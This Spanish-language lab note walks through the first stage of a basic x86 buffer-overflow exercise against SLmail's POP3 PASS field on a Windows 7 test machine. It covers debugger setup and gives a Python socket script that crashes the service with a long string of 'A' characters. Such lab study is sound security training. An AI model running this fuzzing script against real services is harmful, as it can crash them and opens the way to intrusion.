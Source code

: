 -----
- Tags: #practico #ejemplificación 
- -----

# Escenario 

Para realizar un Buffer Overflow en una máquina con arquitectura de 32 bits, necesitamos un programa llamado [Immunity Debugger](https://www.immunityinc.com/products/debugger/) el cual es un depurador de 32 bits para windows. Por otro lado necesitaremos un script en python llamado [mona.py](https://github.com/corelan/mona) para automatizar y facilitar las búsquedas en el inmunity debugger, una vez descargado, este deberá ser movido a la ruta de **C:\\LocalFiles\\InmunityInc\\ImmunityDebugger\\PyCommands**. 

Para practicar todo esto obviamente usamos una [iso de windows 7 premium](https://windows-7-home-premium.uptodown.com/windows). 

------

# Basic Buffer Overflow x86

Para ejemplificar un caso de explotación de Buffer Overflow x86 BÁSICO se usara el windows 7 premium junto a un programa conocido por su vulnerabilidad BOF en un campo PASS el cual se llama *SLmail*. 

Una vez que tengamos la aplicación desplegada, la misma nos abrirá en la maquina windows el puerto **110**, por lo que nos podríamos intentar conectar con **telnet** o **netcat** para intentar ingresar los campos necesarios (USER & PASS).

Si nos conectamos (**telnet {ip} 110**) e ingresamos **USER dobliuw** y **PASS test** veremos que nos arroja un error por que las credenciales no son válidas, pero de momento el programa estaría funcionando. Si nos abrimos el **immunity debugger** en el windows *attacheando* la tarea del *slmail* podremos ver los registros, la pila, entre otras cosas.

La idea es ingresar múltiples caracteres hasta producir un fallo en el programa debido a sobrescribir los valores de la pila y los registros. Una vez logrado el fallo en el mismo comenzamos con el trabajo para buscar el **offset**. Por lo que para todo este trabajo podemos realizar un script en python jugando con **sockets**.

```python
#!/usr/bin/python3 

import socket
import sys 

ip = "192.168.1.34"
port = 110

def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Se crea una conexión el la variable s

    s.connect((ip, port)) # Nos conectamos a la ip y el puerto dado 

    banner = s.recv(1024) # Recibimos la respuesta de 1024 bytes 
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n') #Envíamos la string "USER dobliuw" en formato byte y "\r\n" es una manera de simular el ENTER
        response = s.recv(1024)
        print(response)
        s.send(b"PASS " + b"A"*5000 + b'\r\n') # Envíamos la string "PASS AAAAAAAAAA...." en formato byte, siendo el 5000 la cantidad de caracteres a probar hasta generar el fallo.
        s.close()


if __name__ == "__main__":
    bof()
```